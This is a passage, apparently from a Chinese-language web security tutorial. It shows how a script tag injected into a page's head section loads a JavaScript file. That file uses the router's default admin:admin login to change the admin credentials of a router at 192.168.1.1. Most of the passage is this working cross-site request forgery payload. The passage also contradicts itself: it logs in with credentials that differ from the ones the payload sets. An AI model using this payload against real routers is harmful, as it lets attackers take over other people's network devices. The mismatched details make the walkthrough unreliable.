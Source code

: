  ![](img/420b1d4cf3f6cbe218872eecb71f394b.jpg)
                                         图 4
因此我们可以在 head 代码模块中写入以下语句：
**<script src="http://localhost/1.js"></script>**
其中 1.js 源码如下：
**window.open("http://admin:admin@192.168.1.1/userRpm/ChangeLoginPwdRpm.htm?oldname=admin&oldpassword=admin&newname=administrator&newpassword=password&newpassword2=password&Save=%B1%A3+%B4%E6");**
下面我们试着用 http://newadmin:newpass@192.168.1.1 登陆，结果如图 5 所示：
 ![](img/72ce7367951ac92017607b1f254e08ad.jpg)
                            图 5